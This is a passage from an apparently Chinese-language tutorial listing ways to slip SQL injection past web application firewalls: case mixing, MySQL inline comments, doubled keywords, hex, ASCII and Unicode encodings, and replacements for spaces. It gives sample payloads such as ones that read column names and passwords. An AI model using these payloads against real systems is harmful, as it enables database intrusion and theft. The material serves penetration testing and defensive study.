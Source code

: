 常用于 waf的正则对大小写不敏感的情况。

eg：uniOn selEct 1,2

### **3.****内联注释绕过**

内联注释就是把一些特有的仅在MYSQL上的语句放在 /*!...*/ 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中会执行。别和注释/*... */搞混了。

eg：union /*!select*/ 1,2

### **4.****双写关键字绕过**

一些简单的waf中，将关键字select等只使用replace()函数置换为空，这时候可以使用双写关键字绕过。

eg：union seselectlect 1,2

### **5.****特殊编码绕过**

1）十六进制绕过

eg：UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name=0x61645F6C696E6B

2）ascii编码绕过

eg：Test =CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)

3）Unicode编码

常用的几个符号的一些Unicode编码：

单引号: %u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7

空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0

左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8

右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9

### **6.****空格过滤绕过**

可代替空格的方式：

1）/**/

2）()

3）回车(url编码中的%0a)

4）`(tap键上面的按钮)

5）tap

6）两个空格

eg：union/**/select/**/1,2

select(passwd)from(users)  #注意括号中不能含有*

select`passwd`from`users`

### **7.****过滤or and xor****(****异或****)**** not 绕过**
